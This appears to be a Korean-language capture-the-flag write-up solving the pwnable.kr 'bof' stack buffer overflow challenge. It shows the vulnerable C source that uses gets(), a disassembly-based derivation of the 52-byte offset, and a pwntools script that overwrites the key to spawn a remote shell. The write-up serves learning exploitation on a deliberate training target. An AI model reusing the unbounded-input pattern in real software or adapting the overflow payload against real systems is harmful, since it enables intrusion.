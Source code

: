 ![](Attachments/789FE7B2-FC75-46E0-ADCA-D5BEF6ED126F.png)


### Buffer Overflow
- 스택 버퍼 오버플로우
- 힙 버퍼 오버플로우



우분투에서 wget을 통해 파일을 다운받는다.
`$ wget http://pwnable.kr/bin/bof`

`http://pwnable.kr/bin/bof.c`

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
	char overflowme[32];    // 32바이트 크기의 배열
	printf("overflow me : ");
	gets(overflowme);	// smash me!
	if(key == 0xcafebabe){
		system("/bin/sh");
	}
	else{
		printf("Nah..\n");
	}
}
int main(int argc, char* argv[]){
	func(0xdeadbeef);
	return 0;
}
```
- 0xdeadbeef를 key로 함수에 전달하고, key가 0xcafebabe와 일치하면 셸을 실행함
- `gets`함수로 사용자 입력을 받아 배열 `overflowme`에 저장함
	- `gets`는 입력 길이를 검증하지 않으므로, 입력이 32바이트를 초과하면 메모리의 다른 영역을 덮어쓸 수 있음
	- 이를 통해 key 변수의 값을 변경할 수 있음


#### 풀이

key 값을 원하는 값으로 바꿔주기 위해서는 입력이 가능한 overflowme와 key 변수 간의 거리를 알아야 한다.

![](Attachments/986F88B2-A8F9-4AEB-99F2-D7655936CDB3.png)

- func 함수의 disassembly 코드를 보면 4번의 call이 있는데, 각각 printf(), gets(), system(), printf()를 의미한다.
	- gets의 인자로 overflowme가 들어가고, 두 번째 call 위의 lea에서 [ebp-0x2c]의 주소를 인자로 받을 수 있게 하므로 overflowme는 [ebp-0x2c]에 있다.
	- key는 0xcafebabe와 비교하기 때문에, func+40에서 [ebp+0x8] 위치에 있다.
		- breakpoint를 걸고 실행시키면 overflowme 값을 받는 것이 보인다.![](Attachments/1E6568B2-7D36-41A3-AA30-0B1B2D286B8E.png)

key인 [ebp+0x8]과 overflowme [ebp-0x2c]의 거리는 52바이트이다.

```python
#!/usr/bin/env python
from pwn import *
#context.log_level = 'debug'

conn = remote('pwnable.kr', 9000)
conn.sendline('A'*52+'\xbe\xba\xfe\xca')
conn.interactive()
```

`$ python3 bofPwn.py`

![](Attachments/95374845-63C2-4195-9B44-D6359AC901E0.png)